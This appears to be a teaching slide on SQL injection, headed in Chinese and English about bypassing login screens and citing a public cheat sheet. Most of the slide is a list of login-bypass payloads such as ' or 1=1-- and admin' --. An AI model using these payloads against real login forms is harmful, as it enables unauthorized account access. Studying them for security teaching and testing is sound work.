

# 不同資料庫系統有不一樣的攻擊 Bypassing Login Screens
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#LineCommentAttacks
SQL Injection 101, Login tricks

admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
....
Hacker’ or 1=1;--